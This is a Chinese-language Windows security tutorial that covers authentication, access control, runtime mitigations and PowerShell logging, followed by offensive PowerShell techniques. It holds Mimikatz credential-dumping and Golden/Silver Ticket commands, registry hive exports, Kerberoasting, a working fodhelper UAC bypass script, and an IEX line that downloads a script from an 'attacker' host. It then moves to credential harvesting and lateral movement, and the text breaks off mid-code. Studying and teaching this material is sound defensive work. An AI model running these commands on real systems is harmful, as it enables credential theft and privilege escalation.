





## Windows安全核心技巧

Windows 是全球桌面与企业环境中占有率最高的操作系统，其安全机制经历了从"默认信任"到"零信任"的根本性转变。理解 Windows 安全架构不仅是防御的基础，更是渗透测试和红队行动的必修课——你需要知道锁在哪里，才能评估锁是否可靠。

本节从 Windows 纵深防御体系出发，覆盖身份认证、访问控制、运行时防护、日志审计四大核心领域，兼顾攻防两端视角。

> **Windows安全机制纵深防御图**



---

### 一、Windows安全架构总览

#### 1.1 Windows安全子系统

Windows 安全并非某个单一组件的功能，而是由多个子系统协同构成的体系。理解这些子系统的职责边界，是进行安全分析的前提。



**核心组件职责**：

| 组件 | 运行位置 | 核心职责 | 安全意义 |
|------|---------|---------|---------|
| **LSASS** (Local Security Authority Subsystem Service) | 用户态 | 处理认证、生成访问令牌、管理安全策略 | 渗透中常被作为凭据提取目标（Mimikatz） |
| **SRM** (Security Reference Monitor) | 内核态 | 在每次对象访问时检查 DACL | 所有访问控制的最终执行者 |
| **SAM** (Security Account Manager) | 用户态 | 存储本地用户密码的 NTLM Hash | 获取 SAM 文件等同于获取所有本地密码 |
| **Kerberos** | 用户态 | 域环境中的票据认证协议 | Golden Ticket / Silver Ticket 攻击的目标 |
| **Token** | 内核态 | 代表进程/线程的安全上下文 | Token 篡改可实现权限提升 |

#### 1.2 安全标识符（SID）与访问令牌

Windows 使用 SID（Security Identifier）唯一标识每个用户、组和计算机，而非用户名。这保证了即使重命名账户，其权限关系也不会改变。

```powershell
# 查看当前用户的 SID
whoami /user

# 输出示例：
# 用户名           SID
# ================ ==============================================
# desktop-abc\user S-1-5-21-1234567890-9876543210-1111111111-1001
```

**SID 结构解析**：

```text
S-1-5-21-1234567890-9876543210-1111111111-1001
│ │ │                     │
│ │ │                     └── 相对标识符（RID），1001 = 普通用户
│ │ └── 域/计算机唯一标识
│ └── 权威标识符（5 = NT Authority）
└── SID 版本号（始终为 1）
```

**常见内置 SID**：

| SID | 含义 | 渗透意义 |
|-----|------|---------|
| S-1-5-18 | SYSTEM 账户 | 最高本地权限，许多服务以此身份运行 |
| S-1-5-19 | LOCAL SERVICE | 有限网络权限的内置服务账户 |
| S-1-5-20 | NETWORK SERVICE | 可访问网络的内置服务账户 |
| S-1-5-32-544 | Administrators 组 | 本地管理员，提权目标 |
| S-1-5-21-xxx-512 | Domain Admins | 域管理员，域渗透终极目标 |
| S-1-5-21-xxx-519 | Enterprise Admins | 企业管理员，森林级权限 |

**访问令牌（Access Token）** 是每个进程携带的"身份证"，包含用户 SID、组 SID、权限列表等信息。当进程访问任何安全对象时，SRM 会将令牌中的信息与对象的 DACL 进行比对。

```powershell
# 查看当前进程的令牌信息
whoami /priv
whoami /groups

# 查看特定进程的令牌（需要管理员权限）
# 使用 Process Explorer -> 选中进程 -> Properties -> Security 标签页
```

**安全启示**：如果攻击者能窃取高权限进程的令牌（Token Impersonation），就可以在不破解密码的情况下获得该用户的全部权限。这就是为什么保护 LSASS 进程至关重要。

---

### 二、身份认证机制

#### 2.1 本地认证：SAM与NTLM

Windows 本地认证的核心是 SAM 数据库，它存储在 `C:\Windows\System32\config\SAM` 中，以注册表格式保存。密码不以明文存储，而是存储为 **NTLM Hash** 和 **LM Hash**（后者已过时且极不安全）。

**NTLM Hash 生成过程**：

```text
明文密码 "Password123"
    │
    ▼ UTF-16LE编码
0x500061007300730077006F0072006400310032003300
    │
    ▼ MD4哈希
fc525c9683e8fe067095ba2ddc971889
    │
    ▼ 存入SAM数据库
```

**本地认证流程**：



**安全弱点与防护**：

| 攻击方式 | 原理 | 防护措施 |
|---------|------|---------|
| Pass-the-Hash | 直接使用 NTLM Hash 进行认证，无需明文密码 | 启用 Credential Guard，限制 NTLM 使用 |
| SAM 文件提取 | 从注册表或卷影副本提取 SAM，离线破解 Hash | 启用 BitLocker，限制物理访问 |
| NTLM Relay | 拦截 NTLM 认证并转发到其他服务 | 禁用 NTLM，启用 SMB 签名和 EPA |
| LM Hash 降级 | LM Hash 不区分大小写，极易破解 | 通过组策略禁用 LM Hash 存储 |

```powershell
# 查看 SAM 中的 Hash（需要 SYSTEM 权限）
# 使用 Mimikatz（仅用于授权测试）
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam

# 通过注册表导出（需要 SYSTEM 权限）
reg save HKLM\SAM C:\temp\sam.save
reg save HKLM\SYSTEM C:\temp\system.save
reg save HKLM\SECURITY C:\temp\security.save
# 使用 secretsdump.py 离线提取
# secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

#### 2.2 域认证：Kerberos协议

在 Active Directory 域环境中，Windows 使用 Kerberos V5 作为默认认证协议。Kerberos 的核心思想是"票据"——用户通过票据证明身份，而非反复传递密码。

**Kerberos 认证流程**：



**关键票据类型**：

| 票据 | 缩写 | 存储位置 | 有效期 | 用途 |
|------|------|---------|--------|------|
| Ticket Granting Ticket | TGT | LSASS 进程内存 | 默认10小时 | 向 KDC 请求服务票据 |
| Service Ticket | TGS | LSASS 进程内存 | 默认10小时 | 访问特定服务 |
| Silver Ticket | — | 攻击者伪造 | 自定义 | 伪造特定服务的票据 |
| Golden Ticket | — | 攻击者伪造 | 自定义（最长10年） | 伪造任意用户的 TGT |

**Kerberos 攻击技术（仅用于授权测试）**：

```powershell
# Golden Ticket 攻击（需要 krbtgt 账户的 NTLM Hash）
# 获取 krbtgt Hash（需要域管权限）
mimikatz # lsadump::dcsync /user:krbtgt

# 伪造 Golden Ticket
mimikatz # kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-xxx /krbtgt:<hash> /ptt

# Silver Ticket 攻击（需要服务账户的 NTLM Hash）
mimikatz # kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-xxx /target:sql01.corp.local /service:MSSQLSvc /rc4:<hash> /ptt

# AS-REP Roasting（针对不需要预认证的账户）
# 使用 Rubeus
Rubeus.exe asrepr /outfile:asrep.txt

# Kerberoasting（请求服务票据并离线破解）
Rubeus.exe kerberoast /outfile:tgs.txt
```

**防护措施**：
- 定期轮换 krbtgt 账户密码（至少每180天两次）
- 为所有服务账户设置强密码（25位以上随机密码）
- 启用 Kerberos 预认证，禁用不需要预认证的账户
- 监控异常的 TGS 请求（Event ID 4769）

#### 2.3 Windows Hello与现代认证

Windows 10/11 引入了 Windows Hello 作为生物识别认证方案，使用非对称密钥对替代密码。密钥对存储在 TPM 芯片中，即使设备被盗也无法提取私钥。

```powershell
# 查看 Windows Hello 状态
Get-WmiObject -Class Win32_BiometricDevice

# 检查 TPM 状态
Get-Tpm

# 查看 Windows Hello 证书
certutil -store my
```

---

### 三、访问控制机制

#### 3.1 安全描述符与DACL

Windows 中每个安全对象（文件、注册表键、服务、进程等）都有一个 **安全描述符（Security Descriptor）**，其中包含：

- **Owner SID**：对象所有者
- **Group SID**：对象所属组（主要用于 POSIX 子系统）
- **DACL**（Discretionary Access Control List）：定义谁可以对该对象执行什么操作
- **SACL**（System Access Control List）：定义哪些访问需要被审计

**ACE（Access Control Entry）结构**：

| 字段 | 说明 | 示例 |
|------|------|------|
| Trustee | 被授权的用户/组 SID | S-1-5-21-xxx-1001 |
| Access Mask | 允许的具体权限 | 0x1F01FF（完全控制） |
| ACE Type | Allow / Deny / Audit | Allow |
| Inheritance | 权限是否传递给子对象 | ContainerInherit |

```powershell
# 查看文件的 DACL
icacls "C:\sensitive\data.txt"
# 输出: BUILTIN\Users:(F)  表示 Users 组有完全控制权限

# 使用 PowerShell 查看详细 DACL
$path = "C:\sensitive"
$acl = Get-Acl $path
$acl.Access | Format-Table IdentityReference, FileSystemRights, AccessControlType, IsInherited

# 查看注册表键的权限
(Get-Acl "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run").Access

# 查看服务的权限（使用 sc.exe）
sc sdshow "WSearch"
```

**DACL 评估逻辑**：

```text
访问请求到达
    │
    ▼
DACL 为空？ ──是──> 允许访问（无限制）
    │
    否
    ▼
顺序遍历 ACE
    │
    ├─ 匹配到 Deny ACE？ ──是──> 拒绝访问（Deny优先）
    │
    ├─ 匹配到 Allow ACE？ ──是──> 允许访问
    │
    └─ 无匹配？ ──> 拒绝访问（默认拒绝）
```

**常见权限配置错误**：

| 错误 | 风险 | 检查方法 |
|------|------|---------|
| Everyone:F 敏感目录 | 任何用户完全控制 | `icacls` 检查 |
| Users 组可写服务路径 | DLL 劫持提权 | 检查服务二进制路径权限 |
| 注册表键过于宽松 | 持久化/提权 | 注册表权限审计 |
| 计划任务路径可写 | 提权 | 计划任务权限检查 |

#### 3.2 用户账户控制（UAC）

UAC 是 Windows Vista 引入的安全机制，目的是限制管理员权限的默认使用。即使用户属于 Administrators 组，其默认令牌也是**过滤后的标准用户令牌**，只有在需要时才通过 UAC 提升。

**UAC 工作原理**：



**UAC 提示级别**：

| 级别 | 设置值 | 行为 | 适用场景 |
|------|--------|------|---------|
| 始终通知 | 0 | 所有提权操作都需要确认 | 最高安全要求 |
| 默认 | 1 | Windows 设置变更和非 Windows 程序需要确认 | 大多数环境 |
| 不通知 | 5 | 自动提升，不通知用户 | 仅限受控环境（不推荐） |

```powershell
# 查看当前 UAC 设置
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" | Select-Object EnableLUA, ConsentPromptBehaviorAdmin, PromptOnSecureDesktop

# UAC 绕过检测（监控这些注册表路径）
# HKCU:\Software\Classes\ms-settings\Shell\Open\command
# HKCU:\Software\Classes\mscfile\Shell\Open\command
# HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\
```

**已知 UAC 绕过技术（仅用于安全测试）**：

| 技术 | 利用的自动提升程序 | 原理 |
|------|------------------|------|
| fodhelper.exe | ms-settings 类型关联 | 修改注册表劫持命令执行 |
| eventvwr.exe | mscfile 类型关联 | 注册表键值替换 |
| sdclt.exe | folder 类型关联 | 路径劫持 |
| ComputerDefaults.exe | ms-settings 类型关联 | 类似 fodhelper |

```powershell
# fodhelper UAC 绕过示例（仅用于授权安全测试）
$regPath = "HKCU:\Software\Classes\ms-settings\Shell\Open\command"
New-Item -Path $regPath -Force | Out-Null
New-ItemProperty -Path $regPath -Name "DelegateExecute" -Value "" -Force | Out-Null
New-ItemProperty -Path $regPath -Name "(default)" -Value "cmd /c start cmd.exe" -Force | Out-Null
Start-Process "fodhelper.exe"
Start-Sleep -Seconds 2
Remove-Item -Path "HKCU:\Software\Classes\ms-settings" -Recurse -Force
```

**防护措施**：
- 将 UAC 设置为"始终通知"
- 启用安全桌面（PromptOnSecureDesktop = 1）
- 监控 `HKCU:\Software\Classes` 下的异常注册表创建
- 使用 AppLocker / WDAC 限制可执行程序

#### 3.3 强制完整性控制（MIC）

Windows 使用完整性级别（Integrity Level）为每个进程和对象标注信任等级。低完整性进程不能写入高完整性对象，这是 UAC 的底层支撑机制。

**完整性级别层次**：

| 级别 | SID | 典型主体 | 说明 |
|------|-----|---------|------|
| System | S-1-16-16384 | SYSTEM 进程 | 最高，内核级别 |
| High | S-1-16-12288 | 提升后的管理员 | UAC 提升后的权限 |
| Medium | S-1-16-8192 | 普通用户进程 | 默认级别 |
| Low | S-1-16-4096 | IE 沙箱、Chrome 渲染进程 | 受限级别 |
| Untrusted | S-1-16-0 | 匿名进程 | 最低，几乎无权限 |

```powershell
# 查看进程的完整性级别
# 使用 Process Explorer -> 选中进程 -> 查看 Integrity Level 列

# 使用 PowerShell 查看（需要 PSGetSid 工具）
Get-Process | ForEach-Object {
    $proc = $_
    try {
        $token = $proc.Handle
        Write-Output "$($proc.Name) - PID: $($proc.Id)"
    } catch {}
}
```

---

### 四、运行时防护机制

#### 4.1 DEP（数据执行保护）

DEP 将内存页标记为"数据"或"代码"，防止攻击者在数据区域（如栈、堆）执行恶意代码。

```powershell
# 查看系统 DEP 设置
bcdedit /enum | Select-String "nx"

# 检查特定进程的 DEP 状态
# 使用 Process Explorer -> 选中进程 -> Properties -> DEP Status

# DEP 策略选项：
# OptIn  - 默认，仅保护 Windows 系统进程
# OptOut - 保护所有进程，可为特定程序关闭
# AlwaysOn - 强制所有进程启用 DEP
# AlwaysOff - 关闭 DEP（极不安全）
```

**DEP 的局限性**：ROP（Return-Oriented Programming）攻击通过复用已有代码片段（gadgets）来绕过 DEP，因为这些 gadgets 位于合法的代码区域。

#### 4.2 ASLR（地址空间布局随机化）

ASLR 在每次程序启动时随机化其内存布局（栈、堆、DLL 加载地址），使攻击者无法预测目标地址。

```powershell
# 检查程序是否支持 ASLR
# 使用 dumpbin (Visual Studio 工具)
dumpbin /headers C:\Windows\System32\notepad.exe | Select-String "Dynamic base"

# 在 PowerShell 中检查
$pe = [System.Reflection.Assembly]::LoadFile("C:\Windows\System32\notepad.exe")

# 系统级 ASLR 设置（注册表）
# HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management
# MoveImages = 0xFFFFFFFF (强制 ASLR)
```

**ASLR 的局限性**：
- 32 位系统上随机化空间有限（约 16,384 种可能），可通过暴力破解
- 如果 ASLR 未覆盖某个 DLL（如使用固定基址编译），该 DLL 仍然可预测
- 信息泄露漏洞可以暴露内存布局，完全绕过 ASLR

#### 4.3 CFG（控制流保护）

CFG 是微软在 Windows 10 引入的编译器级安全特性，在间接函数调用前验证目标地址是否为合法函数入口。

```powershell
# 检查程序是否启用 CFG
dumpbin /headers C:\Windows\System32\notepad.exe | Select-String "Control Flow Guard"

# 系统级 CFG 设置
# HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\kernel
# DisableExceptionChainValidation = 0 (启用 CFG)
```

#### 4.4 WDAC（Windows Defender应用控制）

WDAC（也称为 Device Guard 的策略引擎部分）是 Windows 最强大的应用控制机制，可以定义只有经过签名或满足条件的程序才能运行。

```powershell
# 查看当前 WDAC 策略
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard

# 创建基础策略（需要 Windows 10 企业版/教育版）
# 步骤1: 扫描系统生成策略
New-CIPolicy -Level Publisher -FilePath "C:\Policy\InitialPolicy.xml" -UserPEs

# 步骤2: 转换为二进制策略
ConvertFrom-CIPolicy -XmlFilePath "C:\Policy\InitialPolicy.xml" -BinaryFilePath "C:\Policy\SIPolicy.p7b"

# 步骤3: 部署策略
Copy-Item "C:\Policy\SIPolicy.p7b" "C:\Windows\System32\CodeIntegrity\SIPolicy.p7b"
```

**WDAC 与 AppLocker 对比**：

| 特性 | WDAC | AppLocker |
|------|------|-----------|
| 作用范围 | 整个设备（内核级） | 每用户（用户态） |
| 保护深度 | 内核模式驱动+用户态应用 | 仅用户态应用 |
| 策略粒度 | 发布者/路径/哈希/文件属性 | 发布者/路径/哈希 |
| 绕过难度 | 极高（需要内核漏洞） | 中等（可利用白名单程序） |
| 适用版本 | 企业版/教育版 | 专业版及以上 |
| 默认策略模式 | 审核模式（Audit）/ 执行模式（Enforce） | 审核模式 / 执行模式 |

---

### 五、PowerShell安全技术

PowerShell 是 Windows 系统管理的核心工具，同时也是攻击者最常使用的武器之一。理解 PowerShell 的安全机制对于攻防双方都至关重要。

#### 5.1 PowerShell执行策略

执行策略是控制 PowerShell 脚本执行的第一道防线，但需要明确：**它不是安全边界，而是防止用户意外执行脚本的管理控制**。攻击者可以轻松绕过。

**策略类型详解**：

| 策略 | 行为 | 安全性 | 适用场景 |
|------|------|--------|---------|
| Restricted | 禁止执行任何脚本 | 最高（但易绕过） | 默认策略，普通终端 |
| AllSigned | 仅允许经过数字签名的脚本 | 高 | 生产服务器 |
| RemoteSigned | 本地脚本无限制，下载的脚本需要签名 | 中 | 开发环境 |
| Unrestricted | 所有脚本均可执行 | 低 | 仅限隔离环境 |
| Bypass | 绕过所有策略和提示 | 无 | 临时使用（CI/CD） |

```powershell
# 查看当前策略
Get-ExecutionPolicy

# 查看所有作用域的策略（MachinePolicy > UserPolicy > Process > CurrentUser > LocalMachine）
Get-ExecutionPolicy -List

# 设置策略（需要管理员权限）
Set-ExecutionPolicy RemoteSigned -Scope LocalMachine

# 仅对当前用户设置
Set-ExecutionPolicy RemoteSigned -Scope CurrentUser

# 临时绕过策略执行脚本
powershell -ExecutionPolicy Bypass -File C:\script.ps1

# 通过管道绕过（最常用的绕过方式之一）
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker/script.ps1')"
```

**为什么执行策略不是安全边界**：
- `-ExecutionPolicy Bypass` 参数可直接绕过
- 通过 `powershell -ep bypass -c "..."` 绕过
- 通过 `Invoke-Expression` (IEX) 在内存中执行
- 修改注册表中的执行策略值
- 使用 PowerShell Core (pwsh) 可能有不同的策略

#### 5.2 PowerShell安全特性

##### 5.2.1 AMSI（反恶意软件扫描接口）

AMSI 是 Windows 10 引入的安全接口，允许防病毒软件在 PowerShell 执行命令前对其进行扫描。这是目前检测 PowerShell 攻击最有效的防线。

```powershell
# AMSI 的工作流程：
# 1. PowerShell 引擎在执行脚本前调用 AmsiScanBuffer()
# 2. AMSI 将内容传递给注册的反恶意软件（如 Windows Defender）
# 3. 如果检测到恶意内容，阻止执行

# 验证 AMSI 是否生效
# 正常情况下，以下命令会被拦截并报错（仅用于测试）
# "AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386"
```

**AMSI 的局限性与绕过思路（仅用于安全研究）**：
- AMSI 是基于字符串匹配的检测，混淆可以绕过
- 部分 AMSI 绕过通过 patch 内存中的 AmsiScanBuffer 函数实现
- 从 PowerShell 5.0 开始逐步增强，但并非万能

**防护措施**：
- 启用 Windows Defender 实时保护
- 配置 AMSI 的注册表设置：`HKLM:\SOFTWARE\Microsoft\AMSI\Providers`
- 监控 PowerShell 的 `ScriptBlockLogging` 事件

##### 5.2.2 脚本块日志（Script Block Logging）

脚本块日志记录所有 PowerShell 脚本块的执行，包括去混淆后的实际代码。这是事后取证的关键数据源。

```powershell
# 启用脚本块日志（组策略或注册表）
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1

# 启用敏感脚本块日志（记录可能包含敏感信息的脚本块）
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockInvocationLogging" -Value 1

# 脚本块日志位于事件日志：
# Microsoft-Windows-PowerShell/Operational
# Event ID 4104 = 脚本块执行
```

```powershell
# 查看脚本块日志
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-PowerShell/Operational';ID=4104} -MaxEvents 20 |
    Select-Object TimeCreated, @{N='ScriptBlock';E={$_.Properties[2].Value}} |
    Format-List
```

##### 5.2.3 模块日志（Module Logging）

模块日志记录 PowerShell 模块的加载和关键操作。

```powershell
# 启用模块日志
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ModuleLogging" -Name "EnableModuleLogging" -Value 1

# 指定要记录的模块（记录所有模块）
New-Item -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ModuleLogging\ModuleNames" -Force
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ModuleLogging\ModuleNames" -Name "*" -Value "*"

# 模块日志位于：
# Windows PowerShell 事件日志
# Event ID 800 = 模块加载
```

#### 5.3 PowerShell渗透技术

##### 5.3.1 信息收集

```powershell
# === 系统信息 ===
# 基本系统信息
Get-ComputerInfo | Select-Object CsName, OsName, OsVersion, OsArchitecture, WindowsVersion, WindowsBuildLabEx

# 补丁信息（检查缺失的安全补丁）
Get-HotFix | Sort-Object InstalledOn -Descending | Select-Object -First 10

# 已安装软件（检查可利用的应用程序）
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" |
    Select-Object DisplayName, DisplayVersion, Publisher, InstallDate

# === 网络信息 ===
# IP 配置
Get-NetIPAddress | Where-Object AddressFamily -eq "IPv4" | Select-Object InterfaceAlias, IPAddress, PrefixLength

# 活动连接（识别 C2 通信、数据外传等）
Get-NetTCPConnection | Where-Object State -eq "Established" |
    Select-Object LocalAddress, LocalPort, RemoteAddress, RemotePort, @{N='Process';E={(Get-Process -Id $_.OwningProcess).Name}}

# DNS 缓存（识别访问过的域名）
Get-DnsClientCache | Select-Object Entry, RecordName, Data

# === 用户和权限 ===
# 本地用户
Get-LocalUser | Select-Object Name, Enabled, LastLogon, PasswordLastSet

# 管理组成员
Get-LocalGroupMember -Group "Administrators"

# 当前用户权限
whoami /priv
whoami /groups

# 域信息（如果加入域）
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

# === 进程和服务 ===
# 检查进程路径（查找非标准路径的进程，可能为恶意程序）
Get-Process | Select-Object Name, Id, Path | Sort-Object Path

# 检查服务可执行路径（UQSP 漏洞检测）
Get-WmiObject Win32_Service | Where-Object {
    $_.PathName -and $_.PathName -notmatch '^"' -and $_.PathName -match '\s'
} | Select-Object Name, PathName, StartMode, StartName
```

##### 5.3.2 凭据收集

```powershell
# 检查 Windows 凭据管理器中的存储凭据
cmdkey /list

# 检查浏览器保存的凭据（使用 PowerShell）
# 查看 WiFi 配置文件（可能包含密码）
netsh wlan show profiles
netsh wlan show profile name="ProfileName" key=clear

# 查看 IIS 应用程序池配置中的凭据
Get-WebConfigurationProperty -Filter "/system.applicationHost/applicationPools/add/@processModel.password" -PSPath "IIS:\"

# 查看配置文件中的敏感信息
Get-ChildItem -Path "C:\inetpub" -Include *.config,*.json -Recurse -ErrorAction SilentlyContinue |
    Select-String -Pattern "password|connectionString|apiKey" -ErrorAction SilentlyContinue

# 注册表中搜索密码
reg query HKLM /f "password" /t REG_SZ /s 2>$null
reg query HKCU /f "password" /t REG_SZ /s 2>$null
```

##### 5.3.3 远程执行与横向移动

```powershell
# === WinRM 远程管理 ===
# 测试 WinRM 连接
Test-WSMan -ComputerName DC01

# 交互式远程会话
Enter-PSSession -ComputerName DC01 -Credential $cred

# 非交互式远程命令执行
Invoke-Command -ComputerName DC01, DC02 -ScriptBlock {
